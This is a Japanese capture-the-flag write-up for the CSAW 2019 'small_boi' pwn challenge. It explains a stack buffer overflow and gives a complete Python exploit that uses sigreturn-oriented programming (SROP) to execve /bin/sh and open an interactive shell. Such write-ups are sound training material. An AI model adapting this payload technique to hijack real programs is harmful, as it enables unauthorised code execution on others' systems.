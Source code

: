 # [pwn 100pts] small_boi - CSAW CTF Qualification 2019
64ビットバイナリで、DEP以外無効です。
```
$ checksec -f small_boi
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No      0               0       small_boi
```
IDAで解析すると、アセンブリで書かれた小さいバイナリだと分かります。readで0x200バイト読んでいるのですが、0x20バイトしか確保されていないのでBOFになります。
さて、ROP gadgetを探すと次のように少ししかありません。
```
0x00400183: add byte [rax], al ; syscall  ;  (3 found)
0x00400237: add byte [rdi+rdi*8-0x01], dl ; jmp qword [rcx] ;  (1 found)
0x00400186: add eax, 0x58C35D90 ; ret  ;  (1 found)
0x0040019c: dec dword [rax-0x39] ; retn 0x0200 ;  (1 found)
0x0040023b: jmp qword [rcx] ;  (1 found)
0x00400180: mov eax, 0x0000000F ; syscall  ;  (1 found)
0x004001bf: mov eax, 0x0000003C ; syscall  ;  (1 found)
0x0040019e: mov edx, 0x00000200 ; syscall  ;  (1 found)
0x004001be: mov rax, 0x000000000000003C ; syscall  ;  (1 found)
0x0040019d: mov rdx, 0x0000000000000200 ; syscall  ;  (1 found)
0x0040018a: pop rax ; ret  ;  (1 found)
0x00400188: pop rbp ; ret  ;  (3 found)
0x00400189: ret  ;  (4 found)
0x0040019f: retn 0x0200 ;  (1 found)
0x00400174: retn 0x5462 ;  (1 found)
0x0040016f: shr byte [rdx+rcx*2+0x68], 0xFFFFFF96 ; retn 0x5462 ;  (1 found)
0x00400185: syscall  ;  (3 found)
0x00400173: xchg eax, esi ; retn 0x5462 ;  (1 found)
```
とりあえず`pop rax`があるので任意のシステムコールが呼べます。ただし、rdi, rsi, rdxを設定するgadgetが存在しません。こういうときはSROPを使いましょう。
とりあえず/bin/shを書き込むためにvuln関数の途中を呼ぼうと思ったのですが、バイナリ中に/bin/shがありました。

```python
from ptrlib import *

sock = Process("./small_boi")
rop_pop_rax = 0x0040018a
rop_syscall_pop = 0x4001c5
addr_target = 0x601800

payload = b'A' * 0x28
payload += p64(rop_pop_rax)
payload += p64(15)
payload += p64(rop_syscall_pop)
payload += p64(0) * 5
payload += p64(0) * 8 # r8 - r15
payload += p64(0x400000 + 0x1ca) # rdi
payload += p64(0) # rsi
payload += p64(0) # rbp
payload += p64(0) # rbc
payload += p64(0) # rdx
payload += p64(59) # rax
payload += p64(0) # rcx
payload += p64(0x601800) # rsp
payload += p64(rop_syscall_pop) # rip
payload += p64(0) # eflags
payload += p64(0x33) # csgsfs
payload += p64(0) * 4
payload += p64(0) # fpstate
#payload += b'\x00' * (0x200 - len(payload))

assert len(payload) <= 0x200
sock.send(payload)

sock.interactive()
```

# 感想
SROPってこういうバイナリで使うんですね。勉強になりました。
